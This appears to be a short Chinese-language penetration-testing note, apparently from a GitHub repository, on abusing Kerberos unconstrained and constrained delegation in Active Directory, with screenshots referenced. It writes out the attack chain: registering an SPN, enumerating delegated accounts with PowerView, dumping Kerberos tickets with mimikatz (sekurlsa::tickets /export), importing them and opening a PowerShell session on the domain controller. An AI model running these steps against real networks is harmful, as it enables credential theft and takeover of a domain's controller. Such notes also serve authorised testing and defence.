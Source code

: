 ### 账户非受限委派
	设置用户y为服务账户(服务账户有委派权限)
	>setspn -U -A variant/golden y
![image](/assets/Pentest_Note/master/img/398.png)

	查询非受限委派域内账号，使用powerview
	>Get-NetUser -Unconstrained -Domain zone.com
![image](/assets/Pentest_Note/master/img/399.png)

	利用
	管理员权限打开mimikatz导出TGT
	>privilege::debug
	>sekurlsa::tickets /export
![image](/assets/Pentest_Note/master/img/400.png)

	清空票据，导入票据
![image](/assets/Pentest_Note/master/img/401.png)
![image](/assets/Pentest_Note/master/img/402.png)

	获得Powershell会话
	> Enter-PSSession -ComputerName dc.zone.com
![image](/assets/Pentest_Note/master/img/403.png)
### 账户受限委派
	查询受限委派用户
	> Get-DomainUser -TrustedToAuth –Domain zone.com
![image](/assets/Pentest_Note/master/img/404.png)

	查询受限委派主机
	> Get-DomainComputer -TrustedToAuth -Domain zone.com
![image](/assets/Pentest_Note/master/img/405.png)
	
	利用方法后见权限维持模块
